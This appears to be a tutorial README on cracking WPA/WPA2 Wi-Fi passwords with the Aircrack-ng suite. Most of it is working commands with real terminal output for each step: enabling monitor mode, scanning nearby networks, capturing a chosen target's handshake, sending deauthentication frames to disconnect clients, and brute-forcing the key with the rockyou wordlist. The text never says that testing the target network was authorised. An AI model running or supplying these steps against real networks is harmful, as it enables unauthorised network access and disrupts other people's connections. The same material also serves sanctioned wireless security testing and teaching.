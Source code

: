 
* * *

## What is Aircrack-ng?

- Aircrack-ng is a suite of tools used to:
- Capture packets from Wi-Fi networks 🎯
- Crack WEP and WPA/WPA2 keys using captured data 🔓
- Test Wi-Fi security (monitoring, attacking, testing)

* * *

# To capture the WEP/WPA1/WPA2 handshake and crack the wi-fi password

## 1.converting the Wi-fi Adapter from managed to monitor (not all the wi-fi adapter support this)

```
┌──(admin㉿hexecutioners)-[~]
└─$ iwconfig
lo        no wireless extensions.

eth0      no wireless extensions.

docker0   no wireless extensions.

wlan0     IEEE 802.11  ESSID:**[hidden network name]** 
          Mode:Managed  Frequency:2.437 GHz  Access Point: **[hidden BSSID]**   
          Tx-Power=22 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          Link Quality=62/70  Signal level=-48 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:3  Invalid misc:14   Missed beacon:0
```

#### we need to change the Mode: Managed to Monitor

```
sudo airmon-ng start wlan0
```

```
┌──(admin㉿hexecutioners)-[~]
└─$ iwconfig                      
lo        no wireless extensions.

eth0      no wireless extensions.

docker0   no wireless extensions.

wlan0mon  IEEE 802.11  Mode:Monitor  Frequency:2.457 GHz  
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
```

#### Now the Mode changed to Monitor

## Now we are going to scan the wifi's and hotspots

```
sudo airodump-ng wlan0mon
```

```
  CH  8 ][ Elapsed: 0 s ][ 2025-08-06 12:01                                                                          
                                                                                                                    
 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID   
 C8:xx:xx:xx:xx:24  -88        0        0    0   6   65   WEP  WEP         HP-Print-24-LaserJet
 58:xx:xx:xx:xx:5B  -67        3        0    0   3  130   WPA2 CCMP   PSK  SREE                                     
 F6:xx:xx:xx:xx:4F  -47        7        0    0   6  130   WPA2 CCMP   PSK  DESKTOP-31GUN6C 0841  
 50:xx:xx:xx:xx:00  -58        2        0    0   6  260   WPA2 CCMP   PSK  MAX                                     
 1A:xx:xx:xx:xx:CB  -60        3        0    0   6   65   WPA2 CCMP   PSK  DIRECT-KIDESKTOP-0KVU8IQmsST             
 AA:xx:xx:xx:xx:D5  -11        3        0    0  11  180   WPA2 CCMP   PSK  realme 12x 5G   
```

## here my target is *DESKTOP-31GUN6C* and the BSSID F6:4E:E3:90:9D:4F

## command to capture the wpa handshake

```
sudo airodump-ng --bssid  F6:xx:xx:xx:xx:4F -c <channel number> -w capture  wlan0mon
```

```
 CH  6 ][ Elapsed: 4 mins ][ 2025-08-06 12:07 ][ WPA handshake: F6:xx:xx:xx:xx:4F                                   
                                                                                                                    
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                
                                                                                                                    
 F6:xx:xx:xx:xx:4F  -43 100     2563     1502    4   6  130   WPA2 CCMP   PSK  DESKTOP-31GUN6C 0841                 
                                                                                                                    
 BSSID              STATION            PWR    Rate    Lost   Frames  Notes  Probes                                  
                                                                                                                    
 F6:xx:xx:xx:xx:4F  AC:xx:xx:xx:xx:9C  -75    0 - 1      0      386                                                 
 F6:xx:xx:xx:xx:4F  D8:xx:xx:xx:xx:C6  -51   12e-24e   101      452  EAPOL                                          
 F6:xx:xx:xx:xx:4F  68:xx:xx:xx:xx:02  -49    1e- 1e     0      231  EAPOL                                          
 F6:xx:xx:xx:xx:4F  68:xx:xx:xx:xx:F8  -64    1e- 1e     0      219  EAPOL                                          
 F6:xx:xx:xx:xx:4F  14:xx:xx:xx:xx:CB  -51    1e- 6e     0     1281  EAPOL  DESKTOP-31GUN6C 0841  
```

### there you can see the hand shake F6:xx:xx:xx:xx:4F

### it is got deauthenticating a user if it is not deauthenticating then we can run a manual command on the other tab

```
sudo aireplay-ng --deauth 5 -a F6:xx:xx:xx:xx:4F wlan0mon

[sudo] password for balu: 
12:07:02  Waiting for beacon frame (BSSID: F6:4E:E3:90:9D:4F) on channel 6
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
12:07:02  Sending DeAuth (code 7) to broadcast -- BSSID: [F6:xx:xx:xx:xx:4F]
12:07:02  Sending DeAuth (code 7) to broadcast -- BSSID: [F6:xx:xx:xx:xx:4F]
12:07:03  Sending DeAuth (code 7) to broadcast -- BSSID: [F6:xx:xx:xx:xx:4F]
12:07:03  Sending DeAuth (code 7) to broadcast -- BSSID: [F6:xx:xx:xx:xx:4F]
12:07:04  Sending DeAuth (code 7) to broadcast -- BSSID: [F6:xx:xx:xx:xx:4F]

```

### Then check you will get a handshake (not possible for wpa3)

## Now we need to crack the handshake using wordlist

```
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b F6:xx:xx:xx:xx:4F capture-01.cap
```

### then it check with all rockyou.txt file if it is not cracked then it means the password is not there in rockyou.txt

```
Reading packets, please wait...
Opening capture-01.cap
Resetting EAPOL Handshake decoder state.
Read 83449 packets.

1 potential targets
 
                           
                           
                           Aircrack-ng 1.7 

      [00:00:00] 2822/10303727 keys tested (6296.61 k/s) 

      Time left: 27 minutes, 15 seconds                          0.03%

                           KEY FOUND! [ ******** ] #password is hidden for the privacy issues


      Master Key     : 34 83 18 87 BB 17 D9 73 57 C0 F5 DC EC ED 7A 5D 
                       4C 1C 48 00 4F A0 0B E6 82 C6 9F 2E 66 68 A6 C7 

      Transient Key  : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : 50 4D DA 96 D9 E1 0F 91 76 D2 C5 3A C4 BF 12 C0 
```

## KEY FOUND! \[ \*\*\*\*\*\*\*\* \] -> it is the password

* * *

# Then coming back to the Managed

```
sudo airmon-ng stop wlan0mon
```

### if it is saying network manager is not running

```
sudo systemctl restart NetworkManager.service
```
